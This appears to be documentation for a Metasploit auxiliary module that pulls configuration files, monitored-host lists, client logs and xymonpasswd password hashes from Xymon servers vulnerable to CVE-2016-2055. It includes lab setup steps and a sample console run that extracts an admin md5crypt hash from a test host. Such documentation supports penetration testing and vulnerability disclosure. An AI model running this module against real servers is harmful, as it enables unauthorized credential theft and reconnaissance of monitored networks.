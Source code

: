 ## Description

  This module retrieves information from a Xymon daemon service
  (formerly Hobbit, based on Big Brother), including server
  configuration information, a list of monitored hosts, and
  associated client log for each host.

  This module also retrieves usernames and password hashes from
  the `xymonpasswd` config file from Xymon servers before 4.3.25,
  which permit download arbitrary config files (CVE-2016-2055),
  and servers configured with `ALLOWALLCONFIGFILES` enabled.


## Vulnerable Application

  [Xymon](http://xymon.sourceforge.net/) is a system for monitoring servers and networks.

  Xymon packages are available in software repositories for various Linux distributions :

  ```
  sudo apt-get install xymon
  ```

  Refer to http://xymon.sourceforge.net/xymon/help/install.html for more information.

  A Xymon virtual appliance is also available :

  * https://sourceforge.net/projects/xymon/files/Xymon/4.3.10/VM/

  To expose the `xymonpasswd` file, add the following line to `/etc/xymon/xymonserver.cfg` :

  ```
  ALLOWALLCONFIGFILES="TRUE"
  ```

  And restart the service with : `service xymon restart`.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use use auxiliary/gather/xymon_info`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should receive server and client host information


## Scenarios

  ```
  msf > use auxiliary/gather/xymon_info 
  msf auxiliary(gather/xymon_info) > set rhosts 172.16.191.250
  rhosts => 172.16.191.250
  msf auxiliary(gather/xymon_info) > run
  [*] Running module against 172.16.191.250

  [*] 172.16.191.250:1984 - Xymon daemon version 4.3.28
  [*] 172.16.191.250:1984 - Retrieving configuration files ...
  [+] 172.16.191.250:1984 - xymonserver.cfg (18347 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.xym_136371.txt
  [+] 172.16.191.250:1984 - hosts.cfg (745 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.hos_647070.txt
  [+] 172.16.191.250:1984 - xymonpasswd (44 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.xym_182226.txt
  [+] 172.16.191.250:1984 - Credentials: admin : $apr1$axRTeLB1$TFmoeLwRnus.Yhr5fJmc1.
  [*] 172.16.191.250:1984 - Retrieving host list ...
  [+] 172.16.191.250:1984 - Host info (127 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.hostinfo_254799.txt
  [+] 172.16.191.250:1984 - Found 3 hosts
  [*] 172.16.191.250:1984 - Retrieving client logs ...
  [+] 172.16.191.250:1984 - debian-9-6-0-x64-xfce.local client log (87942 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.hosts.debi_671716.txt
  [*] 172.16.191.250:1984 - test-host client log is empty
  [*] 172.16.191.250:1984 - another-test-host client log is empty
  [*] Auxiliary module execution completed
  msf auxiliary(gather/xymon_info) > creds
  Credentials
  ===========

  host            origin          service            public  private                                realm  private_type        JtR Format
  ----            ------          -------            ------  -------                                -----  ------------        ----------
  172.16.191.250  172.16.191.250  1984/tcp (xymond)  admin   $apr1$axRTeLB1$TFmoeLwRnus.Yhr5fJmc1.         Nonreplayable hash  md5crypt
  ```

